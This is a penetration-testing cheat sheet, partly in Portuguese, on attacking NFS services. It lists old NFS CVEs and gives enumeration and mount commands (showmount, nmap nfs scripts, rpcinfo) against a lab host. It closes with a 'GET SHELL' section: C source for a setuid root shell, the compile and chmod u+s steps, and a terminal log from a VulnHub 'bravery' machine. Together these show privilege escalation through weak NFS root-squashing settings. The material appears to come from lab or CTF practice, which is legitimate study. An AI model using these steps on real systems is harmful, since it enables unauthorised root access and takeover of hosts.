 credits: s0wr0b1ndef , gajos112 and jivoi
-----------------------------NFS DESCRIPTION-----------------------------

1. Network FILE SYSTEM

Network File System (NFS) - remote filesystem access [RFC 1813] [RFC5665]. A commonly scanned and exploited attack vector. Normally, port scanning is needed to find which port this service runs on, but since most installations run NFS on this port, hackers/crackers can bypass fingerprinting and try this port directly.

FreeBSD is vulnerable to a denial of service attack. A remote attacker could send a specially-crafted NFS Mount request to TCP port 2049 to cause a kernel panic, resulting in a denial of service.
References: [CVE-2006-0900] [BID-16838]

Stack-based buffer overflow in nfsd.exe in XLink Omni-NFS Server 5.2 allows remote attackers to execute arbitrary code via a crafted TCP packet to port 2049 (nfsd), as demonstrated by vd_xlink.pm.
References: [CVE-2006-5780] [BID-20941] [SECUNIA-22751]

Novell Netware is vulnerable to a stack-based buffer overflow, caused by improper bounds checking by the xnfs.nlm component when processing NFS requests. By sending a specially-crafted NFS RPC request to UDP port 2049, a remote attacker could overflow a buffer and execute arbitrary code on the system or cause the server to crash.

-----------------------------NFS MOUNT-----------------------------

2. Mount NFS share

```
root@kali:~# showmount -h
Usage: showmount [-adehv]
[--all] [--directories] [--exports]
[--no-headers] [--help] [--version] [host]
root@kali:~# showmount 172.16.1.109
Hosts on 172.16.1.109:
root@kali:~# showmount -e 172.16.1.109
Export list for 172.16.1.109:
/var/nfsshare *
root@kali:~# mkdir /tmp/nfs
root@kali:~# mount -t nfs 172.16.1.109:/var/nfsshare /tmp/nfs -nolock
root@kali:~# cd /tmp
root@kali:/tmp# ls -al
total 52
drwxrwxrwt 12 root       root       4096 Oct 30 23:22 .
drwxr-xr-x 22 root       root       4096 Sep 29 03:47 ..
...
drwxr-x---  2 nobody     4294967294 4096 Sep  2  2012 nfs
...
root@kali:/tmp# cd /tmp/nfs
```

----------------------------------------------s0wr0b1ndef----------------------------------
```
nmap -sV --script=nfs-* 172.16.1.109
nmap -sV --script=nfs-ls 172.16.1.109  //same result as rpcinfo
nmap -sV --script=nfs-* 172.16.1.109 // all nfs scripts

rpcinfo -p 172.x.x.x
rpcclient -I 172.x.x.x

#mount NTFS share
mount -t nfs 172.16.1.109:/var/nfsshare /tmp/nfs -nolock

#enumerate NFS shares
showmount -e 172.16.1.109

# If you see any NFS related ACL port open, see /etc/exports
#   2049/tcp  nfs_acl
# /etc/exports: the access control list for filesystems which may be exported to NFS clients.  See exports(5).

READ:
https://pentestlab.blog/tag/rpc/

See root squashing
https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/
```
--------------------------------------------------GET SHELL--------------------------------------------
Veja: https://www.securitynewspaper.com/2018/04/25/use-weak-nfs-permissions-escalate-linux-privileges/

Crie seu shell em C e compile:

```
// gcc -o /tmp/rootshell /tmp/rootshell.c
// chmod u+s /tmp/rootshell

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```

root@an4kein:~/vulnhub/bravery/compile# vim rootshell.c^C
root@an4kein:~/vulnhub/bravery/compile# cat rootshell.c 
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
        setuid(0); setgid(0); system("/bin/bash");
}
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell.c
root@an4kein:~/vulnhub/bravery/compile# gcc -o rootshell rootshell.c
rootshell.c: In function ‘main’:
rootshell.c:6:24: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    6 |  setuid(0); setgid(0); system("/bin/bash");
      |                        ^~~~~~
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell  rootshell.c
root@an4kein:~/vulnhub/bravery/compile# chmod u+s rootshell
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell  rootshell.c
root@an4kein:~/vulnhub/bravery/compile# 

